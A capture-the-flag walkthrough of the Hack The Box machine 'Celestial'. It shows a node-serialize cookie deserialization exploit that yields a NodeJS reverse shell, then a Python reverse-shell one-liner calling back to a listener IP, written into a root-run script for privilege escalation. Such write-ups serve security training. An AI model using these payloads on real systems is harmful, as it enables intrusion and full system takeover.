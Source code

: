 # Recon

As usual we start with a port scan against the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.85 -T5
```

That only reveals an open port on 3000 running the Node.js Express Framework. 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/1.png">

# Enumeration

After browsing to the website we run into a 404. But after refreshing we get a different message, some sort of formula. BurpSuite shows that on the first visit a cookie is set and after revisiting this is passed as a parameter.

Removing the following from the get request resulted in an error. This tells us that the data appears to be unserialized. We also spot a username: ```sun```.
```
Upgrade-Insecure-Requests: 1
If-None-Match: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/2.png">

The cookie appears to be base64 encoded. After decoding we get the following result:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/3.png">

Changing the ```num``` has an effect on the formula. We can mess with the parameters to generate the same kind of error we got before.

# Initial Foothold
We can use nodejsshell.py to create a encoded NodeJS reverse shell. We'll first have to create a payload, serialize it, base64 encode it and finally send it as the cookie parameter. 

[nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

First we'll run ```python nodejsshell.py [Listener IP] [Listener Port]``` to create the encoded shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/4.png">


Then we'll create an ```exploit.js``` file which we use to serialize the payload so that it matches the website's.
```
var y = { rce: function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,10>
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));

```

Running ```nodejs exploit.js``` will create our serialized payload.

I had a issue saying the node-serialize module could not be found. Running ```npm install``` solved this.

After these steps we finally base64 encode it so we can pass it as the cookie parameter. We make sure to have our listener ready before we send our request with BurpSuite. This will result in an error but at the same time provides us with a reverse shell as user ```sun```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/5.png">


# Privilege Escalation
First we'll upgrade the shell. We'll run ```which python``` to see if it has python installed.
We then run the following commands:
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
```

One thing we notice is that user ```sun``` is part of the admin group. We also spot a file called ```script.py``` in the home directory. One directory up we find ```output.txt``` which get's changed every 5 minutes. The content is the content from ```script.py```.

If this script is initiated by the root user we can try to alter the content of the file in order to give us a root shell.

We can use ```pspy``` to see what's exactly going on. Download it from [here](https://github.com/DominicBreuker/pspy). 

After a few minutes we see the following commands proving what we already thought:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/6.png">

Good news! Now we can use a oneliner php shell and save it as the script:
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > script.py
```

With our new listener ready on port 4446 we wait a few minutes for the script to run. As soon as it gets executed a root shell will pop up.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/7.png">